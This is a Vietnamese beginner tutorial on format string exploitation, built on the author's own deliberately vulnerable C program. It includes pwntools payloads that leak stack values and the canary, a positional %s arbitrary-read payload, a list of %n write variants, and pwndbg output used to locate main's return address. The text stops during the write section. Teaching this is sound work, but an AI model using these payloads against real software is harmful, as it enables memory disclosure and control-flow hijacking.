





<h3 style="text-align: center;">Format String</h3>

Đây là bài viết mình chia sẻ những gì mình biết về cách khai thác lỗi format string.
Bài viết có thể sẽ có nhiều thiếu sót vì mình chỉ là beginner.
- Phiên bản GCC mình dùng là 13.3.0, OS: Ubuntu 24.04, cài trên VMWare.
- Bài viết hướng tới những bạn beginner đã học qua assembly x86-64 căn bản 
- Mình có dùng `pwndbg`, `pwntools`, các bạn có thể nên cài trước để tiện theo dõi


<hr>

<h3>Một vài kiến thức cơ bản</h3>

**Format specifiers**



Đây là một vài format specifiers cơ bản mà các bạn cần nắm được. Ngoài ra còn có:
- `%p`: Gom 8 byte lại và in ra như 1 địa chỉ (có tiền tố 0x đằng trước)
- `%llx`: Cũng gom 8 byte lại, in ra ở dạng hexadecimal (không có tiền tố 0x)
- `%c`: In ra 1 byte thấp nhất trong 8 byte đọc được.
Ví dụ: 8 byte đọc được là `0x0807060504030241`, `%c` sẽ chỉ in ra phần thấp nhất là `0x41` như 1 char, `0x41` tương đương kí tự `A`. Vậy nó sẽ in ra `A`

Còn nhiều loại format specifiers nữa nhưng mình sẽ tạm để đó.

**Hàm printf và lỗi format string**

Page man7 có liệt kê hàm `printf()` và họ hàng của nó. 
<a href="https://man7.org/linux/man-pages/man3/printf.3.html">https://man7.org/linux/man-pages/man3/printf.3.html</a>

Tất cả đều có khả năng bị mắc lỗi format string nếu lập trình viên không cẩn thận.

Trong phạm vi bài viết này mình sẽ chỉ trình bày về hàm `printf()`

Hàm printf được định nghĩa:

```c
int printf(const char *restrict format, ...);
```

Sau khi thực hiện, nó trả về một int — đó là số ký tự (bytes) đã được in/ghi thành công. Nếu xảy ra lỗi khi in ra (I/O error, encoding error, v.v.) thì trả về giá trị âm.

- Nếu format chỉ là chuỗi ký tự bình thường (không có %):
```c
printf("Hello world\n");
```
 -- printf không đọc thêm đối số nào — chỉ in nguyên chuỗi đó
 -- Nếu bạn truyền thêm tham số nhưng format không dùng thì các tham số đó bị bỏ qua (không đọc).
 
- Nếu format có % (conversion specifier):
```format.c
printf("val = %d, str = %s\n", 42, "abc");
```

-- %d đọc một int, giá trị 42 được lưu vào `rsi`

-- %s đọc một char* , `rdx` trỏ đến địa chỉ của "abc"

-- Thứ tự mong đợi đối số của hàm `printf` trên x86_64 Linux với chuẩn `System V ABI` là: 
    +) `rdi`: luôn luôn có giá trị được dùng cho printf, vì nếu không có đối số (argument) sẽ không hợp lệ.
    +) Sau đó là các đối số theo thứ tự: `rsi`, `rdx`, `rcx`, `r8`, `r9`, nếu có float thì sau đó sẽ là các thanh `xmm0 - xmm7` dành cho số thập phân
    +) Hết thứ tự ở các thanh ghi, các giá trị trên stack sẽ được in ra

<hr>

Ta có file code C đơn giản `read.c` sau:

```c read.c
#include <stdio.h>
#include <stdlib.h>
int main () {
    char buf[30];
    while (1) {
        if (fgets(buf, sizeof(buf), stdin) == NULL) {
            printf("EOF or error. Exiting...\n");
            break;
        }
        if (strcmp(buf, "exit\n") == 0) {
        	exit(0);
        }
        printf(buf);
    }
}
```
Biên dịch với lệnh: 
```shell
gcc read.c -o read
```

Chương trình này sẽ đọc input được nhập vào và in ra màn hình. Nhưng hàm `printf` gây lỗi format string (`printf(buf)`)

Thử chạy chương trình và điền vào nhiều `%p`. Vì biến `buf` nhận 30 byte nên điền vào chính xác 10 lần `%p.` là vừa đủ.

```shell
%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
```



Rất nhiều thứ được in ra. Vậy đó chính xác là gì?

Dùng pwndbg và đặt breakpoint trước khi chương trình gọi hàm printf và chạy:


Như các bạn thấy giá trị của các thanh ghi:
- `rdi`: `0x7fffffffdc90` ◂— `%p.%p.%p.%p.%p.%p.%p.%p.%p.%p'`
- `rsi`: `0x55555555601d`
- `rdx`: `0x55555555601d`
- `rcx`: `0x65`
- `r8`: `0`
- `r9`: `0`

Ở đây không có dùng đến float nên các thanh ghi`xmm0 - xmm7` tạm bỏ qua

Và đây là stack tại thời điểm đó:


Cho chương trình `continue` xem chuyện gì xảy ra:



* Do `%p` cố gom từng 8 byte mỗi lần và in ra như địa chỉ nên ta có kết quả như trên. Đúng theo thứ tự calling convention của `System V ABI x86-64` trên Linux. Thanh ghi `rdi` được `printf` sử dụng để in ra toàn bộ chuỗi '%p.%p.....' nên không có gì lạ khi không thấy giá trị thanh `rdi` được in ra. Giá trị các thanh ghi tiếp theo cũng được in ra theo thứ tự `rsi`, `rdx`, `rcx`, `r8`, `r9` như đã dự đoán
* (nil) được in ra là do 8 byte `%p` đọc được đều là 0.
* Các giá trị 0x70252e70252e7025 được lặp lại là dạng hexa của chuỗi "`%p.`" lưu trên stack. Nhờ đó ta cũng có thể xác định được vùng stack nào là đoạn bắt đầu và kết thúc của biến `buf`
* Đoạn `0x7fffffffdcb0 —▸ 0x7fffffffdda0`  thì tạm thời mình chưa rõ lý do tại sao lại có giá trị như vậy
* `0x7fffffffdcb8 ◂— 0xae5d522a55c3f100`: Nếu các bạn để ý ở phần đầu hàm main thì sẽ thấy lệnh `mov rax, QWORD PTR fs:0x28`. Trong kiến trúc x86-64 trên Linux, thanh ghi `fs` được sử dụng để trỏ đến một vùng nhớ đặc biệt gọi là Thread Local Storage (TLS). Tại offset (vị trí) 0x28 so với đầu vùng nhớ này, hệ điều hành lưu trữ một giá trị ngẫu nhiên. Giá trị `0xae5d522a55c3f100` chính là canary lưu tại địa chỉ `0x7fffffffdcb8`. 

Còn có những giá trị xuất hiện do không đủ `%p.` vì giới hạn của biến `buf` chỉ có 30 bytes (còn cách leak canary để overflow nhưng tạm chưa nói đến).

* Giá trị `0x7fffffffdd60` mà `rbp` trỏ đến là giá trị thanh `rbp` của hàm cũ được push vào đầu stack frame của hàm `main`
* `0x7fffffffdcc8 —▸ 0x7ffff7c2a1ca`: Địa chỉ `0x7ffff7c2a1ca` là nơi chương trình sẽ return sau khi thoát khỏi hàm `main`
<hr>

#### Lỗi đọc tùy ý (Abitrary read)
Ta đã hiểu lỗi format string có thể được tận dụng để đọc các giá trị trên stack, vậy còn nếu như muốn đọc 1 giá trị của 1 địa chỉ tùy ý thì sao?

<hr>

Trước hết ta hãy đến với 1 trick khá hay để giải quyết việc biến `buf` giới hạn số giá trị đọc được từ stack 


Việc chỉ định chỉ số `n` cho `%n$p` sẽ giúp in ra giá trị tham số thứ `n` của `printf`

Để test nhanh các bạn có thể dùng command line nếu không muốn viết script python:

```cmd
./read < <(echo -ne '%1$p %2$p')
```

* Lưu ý: Cần phân biệt dấu `''` và `""` trong lệnh `echo -ne` vì dấu `''` mới giữ nguyên string, còn `""` sẽ nhận thấy dấu `$` và cố gắng coi `p` như 1 biến để tìm giá trị của biến `p` đó.

```cmd
khanh@VM-Ubuntu:~$ set $p = 3333
khanh@VM-Ubuntu:~$ echo -ne '%1$p' | hexdump -C
00000000  25 31 24 70                                       |%1$p|
00000004
khanh@VM-Ubuntu:~$ echo -ne "%1$p" | hexdump -C
00000000  25 31 33 33 33 33                                 |%13333|
00000006
```

<hr>

Nhìn vào đây có thể xác định `%6$p` là chỗ sẽ bắt đầu in ra giá trị `buf` (hoặc là các bạn dựa vào thứ tự gọi tham số của printf cũng tự suy ra được)



Tiếp đó hãy thử inject địa chỉ nào đó vào trong vùng biến `buf`. Vì việc inject raw bytes không tiện để làm thủ công nên ta sẽ dùng script pwntools.

* Địa chỉ `0x7fffffffb0be` mình sử dụng ở đây chỉ là 1 địa chỉ giả định minh họa cho việc có thể inject địa chỉ và đọc dữ liệu tại đó

```python
from pwn import *

p = process('./read')
payload = p64(0x7fffffffb0be)
payload += b'.'
payload += b'%6$p.'
p.sendline(payload)
p.interactive()
```

Kết quả:
```bash
[x] Starting local process './read'
[+] Starting local process './read': pid 47404
[*] Switching to interactive mode
�����.0x252e7fffffffb0be.
```

Có vẻ vẫn bị dính 0x252e đằng trước, 0x252e chính là `%.` ở dạng hexa. Xem ra không thể inject địa chỉ ở đằng trước vì `%p` gom từng nhóm 8 byte, mà địa chỉ `0x7fffffffb0be`  vốn không đủ 8 bytes. Khi thêm `.%6$p.` đằng sau thì các byte `%.` sẽ lấp vào chỗ còn thiếu trong 8 byte kia.

Vậy ở đây chúng ta rút ra 1 trick: Địa chỉ trong payload phải được đặt ở đằng sau cùng.

Đây là cấu trúc payload mình dùng khi làm những bài kiểu này. Các bạn có thể tham khảo:
```payload
[chars] + [%n_format_specifier] + [injected_address]
```
Lý do cần có `[chars]` đằng trước là để căn chỉnh vị trí địa chỉ sao cho thuận lợi nhất.

Xây dựng lại payload:
```python
from pwn import *

p = process('./read')
payload = b'%6$p.'
payload += p64(0x7fffffffb0be)
p.sendline(payload)
p.interactive()
```
Ta được output:
```shell
[x] Starting local process './read'
[+] Starting local process './read': pid 47646
[*] Switching to interactive mode

0xffb0be2e70243625.�����
```
Phần `0xffb0be2e70243625` chính là kết quả của `%6$p`. Và `�����` là raw bytes của `0x7fffffffb0be`. Xem ra cần phải làm gì đó để đẩy các bytes của địa chỉ sang tới `%7$p` mới có địa chỉ đẹp được. Mình sẽ thêm các kí tự `A` ở đầu payload để nó đẩy byte của địa chỉ kia sang.

```python
from pwn import *

p = process('./read')

payload = b'A'*2
payload += b'.'
payload += b'%7$p.'
payload += p64(0x7fffffffb0be)
p.sendline(payload)
p.interactive()
```

output:
```shell
[x] Starting local process './read'
[+] Starting local process './read': pid 47684
[*] Switching to interactive mode

AA.0x7fffffffb0be.�����
```

Tại sao lại là thêm 2 byte `A` và 1 byte `.`? Các bạn để ý `0xffb0be2e70243625` còn đúng 3 byte `0xffb0be` là còn ở vị trí `%6$p` nên mình thêm 3 byte kia để nó vừa đủ đẩy sang vị trí `%7$p`

Có vẻ thuận lợi rồi đấy. Vị trí địa chỉ được căn khá đẹp. Giả sử `0x7fffffffb0be` trỏ đến 1 string ta cần biết, chỉ cần thay payload từ `%p` sang `%s` là có thể đọc được `0x7fffffffb0be` trỏ đến gì.

```python
from pwn import *

p = process('./read')

payload = b'A'*2
payload += b'.'
payload += b'%7$s.'
payload += p64(0x7fffffffb0be)
p.sendline(payload)
p.interactive()
```

<hr>

#### Lỗi ghi tùy ý (Abitrary write)

Hàm `printf` có các format specifers có thể cho phép ghi đè giá trị ở địa chỉ tùy ý.

`%n` là một format specifier đặc biệt, và nó có các biến thể tùy theo kiểu dữ liệu của đối số mà bạn truyền vào.

* Các biến thể của %n
    * `%n`: ghi số lượng ký tự đã in vào một biến kiểu int * (ghi đè 4 byte).

    * `%hn`: ghi vào một biến kiểu short * (chỉ lấy giá trị 16-bit thấp, nghĩa là ghi đè 2 byte).

    * `%hhn`: ghi vào một biến kiểu signed char * (chỉ lấy giá trị 8-bit thấp, nghĩa là ghi đè 1 byte).

    * `%ln`: ghi vào một biến kiểu long *.

    * `%lln`: ghi vào một biến kiểu long long *.

    * `%zn`: ghi vào một biến kiểu size_t *.

    * `%jn`: ghi vào một biến kiểu intmax_t *

Đối với chương trình bên trên ta sẽ sử dụng `%hhn`, ghi đè từng byte, để dễ thực hiện thao tác ghi đè

```c read.c
#include <stdio.h>
#include <stdlib.h>
int main () {
    char buf[30];
    while (1) {
        if (fgets(buf, sizeof(buf), stdin) == NULL) {
            printf("EOF or error. Exiting...\n");
            break;
        }
        if (strcmp(buf, "exit\n") == 0) {
        	exit(0);
        }
        printf(buf);
    }
}
```

Thử chạy lại chương trình và điền input
```shell
khanh@VM-Ubuntu:~$ ./read < <(echo -ne '%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.')

0x58e6be11001d.0x58e6be11001d.0x65.(nil).(nil).0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e7025.0x7ffc748f66a0.EOF or error. Exiting...
```

Ta cũng chưa rõ `0x7ffc748f66a0` là cái gì. Nhưng biết rằng nó nằm ở vị trí `%12$p`

Để biết rõ hơn, tiến hành debug bằng pwndbg


```pwndbg
pwndbg> disas main 
Dump of assembler code for function main:
   0x00000000000011e9 <+0>:	endbr64
   0x00000000000011ed <+4>:	push   rbp
   0x00000000000011ee <+5>:	mov    rbp,rsp
   0x00000000000011f1 <+8>:	sub    rsp,0x30
   0x00000000000011f5 <+12>:	mov    rax,QWORD PTR fs:0x28
   0x00000000000011fe <+21>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000001202 <+25>:	xor    eax,eax
   0x0000000000001204 <+27>:	mov    rdx,QWORD PTR [rip+0x2e05]        # 0x4010 <stdin@GLIBC_2.2.5>
   0x000000000000120b <+34>:	lea    rax,[rbp-0x30]
   0x000000000000120f <+38>:	mov    esi,0x1e
   0x0000000000001214 <+43>:	mov    rdi,rax
   0x0000000000001217 <+46>:	call   0x10d0 <fgets@plt>
   0x000000000000121c <+51>:	test   rax,rax
   0x000000000000121f <+54>:	jne    0x1247 <main+94>
   0x0000000000001221 <+56>:	lea    rax,[rip+0xddc]        # 0x2004
   0x0000000000001228 <+63>:	mov    rdi,rax
   0x000000000000122b <+66>:	call   0x10a0 <puts@plt>
   0x0000000000001230 <+71>:	nop
   0x0000000000001231 <+72>:	mov    eax,0x0
   0x0000000000001236 <+77>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x000000000000123a <+81>:	sub    rdx,QWORD PTR fs:0x28
   0x0000000000001243 <+90>:	je     0x1283 <main+154>
   0x0000000000001245 <+92>:	jmp    0x127e <main+149>
   0x0000000000001247 <+94>:	lea    rax,[rbp-0x30]
   0x000000000000124b <+98>:	lea    rdx,[rip+0xdcb]        # 0x201d
   0x0000000000001252 <+105>:	mov    rsi,rdx
   0x0000000000001255 <+108>:	mov    rdi,rax
   0x0000000000001258 <+111>:	call   0x10e0 <strcmp@plt>
   0x000000000000125d <+116>:	test   eax,eax
   0x000000000000125f <+118>:	jne    0x126b <main+130>
   0x0000000000001261 <+120>:	mov    edi,0x0
   0x0000000000001266 <+125>:	call   0x10f0 <exit@plt>
   0x000000000000126b <+130>:	lea    rax,[rbp-0x30]
   0x000000000000126f <+134>:	mov    rdi,rax
   0x0000000000001272 <+137>:	mov    eax,0x0
   0x0000000000001277 <+142>:	call   0x10c0 <printf@plt>
   0x000000000000127c <+147>:	jmp    0x1204 <main+27>
   0x000000000000127e <+149>:	call   0x10b0 <__stack_chk_fail@plt>
   0x0000000000001283 <+154>:	leave
   0x0000000000001284 <+155>:	ret
End of assembler dump.
pwndbg> 
```
Đặt breakpoint trước khi hàm `printf` được gọi để thấy rõ stack lúc đó
```pwndbg
pwndbg> b *main+142
Breakpoint 1 at 0x1277
pwndbg> b *main+147
Breakpoint 2 at 0x127c
pwndbg> 
```
* Lưu ý: Khi set breakpoint trong trường hợp này nên chỉ định rõ tên hàm + offset vì địa chỉ các lệnh khi chương trình chưa chạy có thể sẽ khác so với lúc chạy

```pwndbg
pwndbg> run
Starting program: /home/khanh/Code/The_Art_Of_Exploitation_Labs/format_string/read 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
%12$p
```

Đây chính là stack trước khi gọi hàm `printf`
```pwndbg
Breakpoint 1, 0x0000555555555277 in main ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────────────
 RAX  0
 RBX  0x7fffffffddc8 —▸ 0x7fffffffe11c ◂— '/home/khanh/Code/The_Art_Of_Exploitation_Labs/format_string/read'
 RCX  0x65
 RDX  0x55555555601d ◂— 0x100000a74697865 /* 'exit\n' */
 RDI  0x7fffffffdc70 ◂— 0xa7024323125 /* '%12$p\n' */
 RSI  0x55555555601d ◂— 0x100000a74697865 /* 'exit\n' */
 R8   0x5555555592a6 ◂— 0
 R9   0x410
 R10  1
 R11  0x246
 R12  1
 R13  0
 R14  0x555555557d98 (__do_global_dtors_aux_fini_array_entry) —▸ 0x5555555551a0 (__do_global_dtors_aux) ◂— endbr64 
 R15  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
 RBP  0x7fffffffdca0 —▸ 0x7fffffffdd40 —▸ 0x7fffffffdda0 ◂— 0
 RSP  0x7fffffffdc70 ◂— 0xa7024323125 /* '%12$p\n' */
 RIP  0x555555555277 (main+142) ◂— call printf@plt
──────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────────────────────
 ► 0x555555555277 <main+142>    call   printf@plt                  <printf@plt>
        format: 0x7fffffffdc70 ◂— 0xa7024323125 /* '%12$p\n' */
        vararg: 0x55555555601d ◂— 0x100000a74697865 /* 'exit\n' */
 
b+ 0x55555555527c <main+147>    jmp    main+27                     <main+27>
    ↓
   0x555555555204 <main+27>     mov    rdx, qword ptr [rip + 0x2e05]     RDX, [stdin@GLIBC_2.2.5]
   0x55555555520b <main+34>     lea    rax, [rbp - 0x30]
   0x55555555520f <main+38>     mov    esi, 0x1e                         ESI => 0x1e
   0x555555555214 <main+43>     mov    rdi, rax
   0x555555555217 <main+46>     call   fgets@plt                   <fgets@plt>
 
   0x55555555521c <main+51>     test   rax, rax
   0x55555555521f <main+54>     jne    main+94                     <main+94>
 
   0x555555555221 <main+56>     lea    rax, [rip + 0xddc]     RAX => 0x555555556004 ◂— 'EOF or error. Exiting...'
   0x555555555228 <main+63>     mov    rdi, rax
───────────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────────
00:0000│ rdi rsp 0x7fffffffdc70 ◂— 0xa7024323125 /* '%12$p\n' */
01:0008│-028     0x7fffffffdc78 ◂— 0
02:0010│-020     0x7fffffffdc80 ◂— 0
03:0018│-018     0x7fffffffdc88 —▸ 0x7ffff7fe5af0 (dl_main) ◂— endbr64 
04:0020│-010     0x7fffffffdc90 —▸ 0x7fffffffdd80 —▸ 0x555555555100 (_start) ◂— endbr64 
05:0028│-008     0x7fffffffdc98 ◂— 0x9172f3a7d2807b00
06:0030│ rbp     0x7fffffffdca0 —▸ 0x7fffffffdd40 —▸ 0x7fffffffdda0 ◂— 0
07:0038│+008     0x7fffffffdca8 —▸ 0x7ffff7c2a1ca (__libc_start_call_main+122) ◂— mov edi, eax
─────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────
 ► 0   0x555555555277 main+14   1   0x7ffff7c2a1ca __libc_start_call_main+122
   2   0x7ffff7c2a28b __libc_start_main+139
   3   0x555555555125 _start+37
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> 
```
Output sau khi gọi hàm `printf` xong:

```pwndbg
pwndbg> c
Continuing.
0x7fffffffdd40

Breakpoint 2, 0x000055555555527c in main ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────────────
*RAX  0xf
 RBX  0x7fffffffddc8 —▸ 0x7fffffffe11c ◂— '/home/khanh/Code/The_Art_Of_Exploitation_Labs/format_string/read'
*RCX  0
*RDX  0
*RDI  0x7fffffffda90 —▸ 0x7fffffffdac0 ◂— '0x7fffffffdd40\n'
*RSI  0x5555555596b0 ◂— '0x7fffffffdd40\n'
*R8   0x7ffff7e03b20 (main_arena+96) —▸ 0x555555559ab0 ◂— 0
 R9   0x410
 R10  1
*R11  0x202
 R12  1
 R13  0
 R14  0x555555557d98 (__do_global_dtors_aux_fini_array_entry) —▸ 0x5555555551a0 (__do_global_dtors_aux) ◂— endbr64 
 R15  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
 RBP  0x7fffffffdca0 —▸ 0x7fffffffdd40 —▸ 0x7fffffffdda0 ◂— 0
 RSP  0x7fffffffdc70 ◂— 0xa7024323125 /* '%12$p\n' */
*RIP  0x55555555527c (main+147) ◂— jmp main+27
──────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────────────────────
b+ 0x555555555277 <main+142>    call   printf@plt                  <printf@plt>
 
 ► 0x55555555527c <main+147>    jmp    main+27                     <main+27>
    ↓
   0x555555555204 <main+27>     mov    rdx, qword ptr [rip + 0x2e05]     RDX, [stdin@GLIBC_2.2.5] => 0x7ffff7e038e0 (_IO_2_1_stdin_) ◂— 0xfbad2288
   0x55555555520b <main+34>     lea    rax, [rbp - 0x30]                 RAX => 0x7fffffffdc70 ◂— 0xa7024323125 /* '%12$p\n' */
   0x55555555520f <main+38>     mov    esi, 0x1e                         ESI => 0x1e
   0x555555555214 <main+43>     mov    rdi, rax                          RDI => 0x7fffffffdc70 ◂— 0xa7024323125 /* '%12$p\n' */
   0x555555555217 <main+46>     call   fgets@plt                   <fgets@plt>
 
   0x55555555521c <main+51>     test   rax, rax
   0x55555555521f <main+54>     jne    main+94                     <main+94>
 
   0x555555555221 <main+56>     lea    rax, [rip + 0xddc]     RAX => 0x555555556004 ◂— 'EOF or error. Exiting...'
   0x555555555228 <main+63>     mov    rdi, rax
───────────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdc70 ◂— 0xa7024323125 /* '%12$p\n' */
01:0008│-028 0x7fffffffdc78 ◂— 0
02:0010│-020 0x7fffffffdc80 ◂— 0
03:0018│-018 0x7fffffffdc88 —▸ 0x7ffff7fe5af0 (dl_main) ◂— endbr64 
04:0020│-010 0x7fffffffdc90 —▸ 0x7fffffffdd80 —▸ 0x555555555100 (_start) ◂— endbr64 
05:0028│-008 0x7fffffffdc98 ◂— 0x9172f3a7d2807b00
06:0030│ rbp 0x7fffffffdca0 —▸ 0x7fffffffdd40 —▸ 0x7fffffffdda0 ◂— 0
07:0038│+008 0x7fffffffdca8 —▸ 0x7ffff7c2a1ca (__libc_start_call_main+122) ◂— mov edi, eax
─────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────
 ► 0   0x55555555527c main+147
   1   0x7ffff7c2a1ca __libc_start_call_main+122
   2   0x7ffff7c2a28b __libc_start_main+139
   3   0x555555555125 _start+37
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> 
```

Kết quả in ra là `0x7fffffffdd40`, chính là giá trị mà địa chỉ trong thanh ghi `rbp` đang trỏ đến. Có vẻ giá trị này cũng thuộc phạm vi stack. Có thể dùng lệnh `vmmap` để kiểm tra.

```pwndbg
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size  Offset File (set vmmap-prefer-relpaths on)
    0x555555554000     0x555555555000 r--p     1000       0 read
    0x555555555000     0x555555556000 r-xp     1000    1000 read
    0x555555556000     0x555555557000 r--p     1000    2000 read
    0x555555557000     0x555555558000 r--p     1000    2000 read
    0x555555558000     0x555555559000 rw-p     1000    3000 read
    0x555555559000     0x55555557a000 rw-p    21000       0 [heap]
    0x7ffff7c00000     0x7ffff7c28000 r--p    28000       0 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7c28000     0x7ffff7db0000 r-xp   188000   28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7db0000     0x7ffff7dff000 r--p    4f000  1b0000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7dff000     0x7ffff7e03000 r--p     4000  1fe000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7e03000     0x7ffff7e05000 rw-p     2000  202000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7e05000     0x7ffff7e12000 rw-p     d000       0 [anon_7ffff7e05]
    0x7ffff7fa7000     0x7ffff7faa000 rw-p     3000       0 [anon_7ffff7fa7]
    0x7ffff7fbd000     0x7ffff7fbf000 rw-p     2000       0 [anon_7ffff7fbd]
    0x7ffff7fbf000     0x7ffff7fc1000 r--p     2000       0 [vvar]
    0x7ffff7fc1000     0x7ffff7fc3000 r--p     2000       0 [vvar_vclock]
    0x7ffff7fc3000     0x7ffff7fc5000 r-xp     2000       0 [vdso]
    0x7ffff7fc5000     0x7ffff7fc6000 r--p     1000       0 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7fc6000     0x7ffff7ff1000 r-xp    2b000    1000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ff1000     0x7ffff7ffb000 r--p     a000   2c000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000   36000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffd000     0x7ffff7fff000 rw-p     2000   38000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffffffde000     0x7ffffffff000 rw-p    21000       0 [stack]
0xffffffffff600000 0xffffffffff601000 --xp     1000       0 [vsyscall]
pwndbg> 
```
Điều này xác nhận rằng `0x7fffffffdd40` là địa chỉ thuộc stack. Nếu bạn vẫn cảm thấy bối rối khi xác định địa chỉ này có thuộc stack hay không, hãy lấy địa chỉ kết thúc của stack trừ đi `0x7fffffffdd40`. Nếu nó nhỏ hơn hoặc bằng `0x21000` thì nó thuộc phạm vi stack.

```pwndbg
pwndbg> p /x 0x7ffffffff000 - 0x7fffffffdd40
$1 = 0x12c0
pwndbg> 
```

Vậy điều này có ý nghĩa gì?

Trong phạm vi stack, dù ASLR hay PIE có bật thì khoảng cách giữa các thành phần là không đổi.

Ta có thể lợi dụng điều này để tính toán ra được địa chỉ return address của hàm main

```pwndbg
───────────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdc70 ◂— 0xa7024323125 /* '%12$p\n' */
01:0008│-028 0x7fffffffdc78 ◂— 0
02:0010│-020 0x7fffffffdc80 ◂— 0
03:0018│-018 0x7fffffffdc88 —▸ 0x7ffff7fe5af0 (dl_main) ◂— endbr64 
04:0020│-010 0x7fffffffdc90 —▸ 0x7fffffffdd80 —▸ 0x555555555100 (_start) ◂— endbr64 
05:0028│-008 0x7fffffffdc98 ◂— 0x9172f3a7d2807b00
06:0030│ rbp 0x7fffffffdca0 —▸ 0x7fffffffdd40 —▸ 0x7fffffffdda0 ◂— 0
07:0038│+008 0x7fffffffdca8 —▸ 0x7ffff7c2a1ca (__libc_start_call_main+122) ◂— mov edi, eax
```
Theo cấu trúc stackframe đã biết thì return address nằm ngay trên previous rbp


* higher address: tiến về 0xffff...ff
* lower address: tiến về 0x00...000

Vậy có thể suy được ra return address của hàm main là `0x7ffff7c2a1ca`, địa chỉ trỏ đến nó là `0x7fffffffdca8`
```pwndbg
06:0030│ rbp 0x7fffffffdca0 —▸ 0x7fffffffdd40 —▸ 0x7fffffffdda0 ◂— 0
07:0038│+008 0x7fffffffdca8 —▸ 0x7ffff7c2a1ca (__libc_start_call_main+122) ◂— mov edi, eax
```
Địa chỉ `0x7fffffffdd40` (previous rbp, cũng là ouput của `%12$p`) cách `0x7fffffffdca8` (địa chỉ trỏ tới return address) là:

```pwndbg
pwndbg> p /x 0x7fffffffdd40 - 0x7fffffffdca8
$2 = 0x98
```
